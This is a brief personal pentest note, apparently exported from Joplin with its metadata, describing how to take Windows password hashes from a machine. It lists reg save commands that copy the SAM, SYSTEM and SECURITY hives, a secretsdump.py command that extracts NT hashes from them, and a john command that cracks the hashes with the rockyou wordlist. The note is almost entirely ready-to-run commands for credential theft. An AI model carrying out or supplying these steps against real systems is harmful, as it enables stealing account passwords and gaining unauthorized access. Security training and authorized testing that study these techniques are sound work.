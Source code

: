 Extracting Hashes from SAM Dump

# Using Reg

reg save hklm\\sam C:\\sam.save

reg save hklm\\system C:\\system.save

reg save hklm\\security C:\\security.save

Once all is extracted back to kali, then try to get the hashes

> \# If using venv
> 
> python secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Once you get all the hashes, we can put the hashes in a file and crack with john

> john --format=nt hashes --wordlist=/usr/share/wordlists/rockyou.txt

id: a7dbdaf2ef9b44448cfde1a5b767b763
parent_id: 1ad489f21b3448a899b35a092175dee6
created_time: 2022-04-21T14:56:47.366Z
updated_time: 2022-04-21T14:59:29.179Z
is_conflict: 0
latitude: 1.30360000
longitude: 103.85540000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-04-21T14:56:47.366Z
user_updated_time: 2022-04-21T14:59:29.179Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1